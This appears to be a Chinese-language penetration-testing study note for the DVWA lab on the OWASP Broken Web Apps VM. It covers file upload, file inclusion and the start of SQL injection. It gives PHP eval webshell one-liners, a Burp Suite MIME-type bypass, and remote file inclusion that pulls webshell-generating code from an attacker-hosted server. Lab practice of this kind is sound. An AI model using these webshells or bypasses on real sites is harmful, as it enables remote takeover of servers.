

# 网络安全
       
> 靶机下载地址:  
>
> https://sourceforge.net/projects/owaspbwa/files/1.2/OWASP_Broken_Web_Apps_VM_1.2.zip/download 
>
> 攻击机下载地址: 下载VMware版本
>
>  https://www.kali.org/downloads/  

> 靶机启动后会自动开启一些有漏洞的web项目服务, 直接访问靶机地址可访问这些项目

> 靶机和攻击机首次启动后要 dhclient -r eth0 释放网卡上绑定的ip地址, 然后 dhclinet eth0 重新获取ip
>
> 如果获取不到 ip , vmware -> 编辑 -> 虚拟网络编辑器 -> 还原默认值设置
>
> 如果还是获取不到ip , 计算机的服务 -> 打开vmware相关服务


#### robots.txt

> 放到网站根目录下, 用来告诉搜索引擎哪些路径可以爬取, 哪些路径不可爬取, 
>
> 但是同时也暴露了本网站的目录结构


#### 文件上传漏洞渗透



###### 低安全级别 

> 无任何上传验证

1. 访问靶机中的 Damn Vulnerable Web Application 项目, 账密 admin/admin

2. 点击进入 upload 页面

3. 在默认的低安全级别下, 上传php文件

   ```php
   <?php @eval($_POST['chopper']);?>
   ```

4. 在中国菜刀中添加靶机中该php文件的地址 `<ip>/dvwa/hackable/uploads/xxx.php` , 和密码为 chopper

5. 使用中国菜刀可直接操作靶机

6. 靶机中文件上传的位置为 /var/www/dvwa/hackable/uploads

###### 中安全级别

> 验证请求头中 文件的mime类型 和大小

> burpsuite 可以做代理, 先将请求发给它, 然后修改请求头的mime类型再转发出去, 从而破解后台的文件类型验证
>
> kali 自带了 burpsuite

1. 在kali中进入burpsuite -> 启动一个项目 -> 使用默认参数 -> option设置谁可以使用它来代理, 默认就是本机
2. 在 burpsuite -> proxy -> intercept is on 设置拦截请求
3. 在kali中进入 火狐浏览器 -> 设置 -> advanced -> network -> connection -> settings -> manual proxy configuration -> 输入本机的8080为代理服务 
4. 将 dvwa 的安全级别调成 中
5. 进入 upload 页面, 上传上面那个php文件 , 此时因为请求被代理拦截, 所以一直显示正在加载
6. 在 burpsuite的 proxy 可查看到被拦截的请求, 手动将请求头中改为 Content-type : image/jpeg , 然后点击 forward转发请求, 因为改了请求头的mime类型, 所以后台文件类型验证不会拦截
7. 文件上传成功则可使用菜刀进行远程控制

###### 高安全级别

> 验证文件扩展名
>
> 通过文件包含漏洞可破解


#### 文件包含漏洞

> php服务器开启了 allow_url_include 选项, 该选项在 php 配置文件中查看 ,即允许远程包含文件, 同时在php的包含检校中又没有做包含文件类型的验证
>
> 此时就可以通过修改url路径中的包含文件 , 远程包含攻击机上的恶意文件 , 在恶意文件中加入生成 php类型 的 webshell 文件 的代码, 在被包含时就会执行并在靶机上生成webshell 文件, 然后就可以使用菜刀远程连接控制
>
> dvwa 上的 file inclusion 

##### 低安全级别

###### 本地文件包含

> 无任何包含文件检校
>
> 这种方式实际上就是在破解上面 文件上传漏洞 的高安全级别

1. 先找一个 xxx.jpg , 使用 edjpgcom 工具 (吾爱破解下载) 修改图片文件, 添加 生成webshell的代码

   ```php
   <?fputs(fopen("shell20.php","w"),'<?php eval($_POST[xxx]);?>')?>
   ```

2. 将该 jpg 文件通过上面那个 文件上传功能 上传到攻击机上

3. 打开 文件包含 页面, 修改url路径中的page参数为刚才上传图片的相对路径并访问, 然后网页会执行该 图片中的代码, 生成 webshell 文件

4. 使用菜刀连接进行远程控制 

###### 远程文件包含

1. 随便找个机器开启一个服务, 然后在里面添加一个 txt 文件 , 这个txt里面就写生成 webshell 文件的代码
2. 在文件包含页面设置 page 参数为 远程文件的路径 , 格式大概是 `http://<ip>:<端口>/<文件路径>` 即可直接执行txt中的代码生成 webshell
3. 使用菜刀连接控制


##### 中安全级别

> 限制了远程文件包含, 将 https:// 或 https:// 改为 空
>
> 那么对于本地文件包含的入侵是没有影响的, 
>
> 对于远程文件包含, 设置的 url 应当改为 `httphttp://://ip:端口/文件路径`


##### 高安全级别

> 只能包含指定名字的文件
>
> 没有办法破解


#### SQL注入

> mysql 数据库中有一个名字为 information_schema 的库, 这个库以表的形式存放整个数据库中其他库和表的所有信息
>
> select * from information_schema.TABLES\G 查看数据库中所有的表信息
>
> select DISTINCT TABLE_SCHEMA from information_schema.TABLES\G 查看数据库中所有的库名
>
> select * from information_schema.columns\G 查看数据库中所有的列信息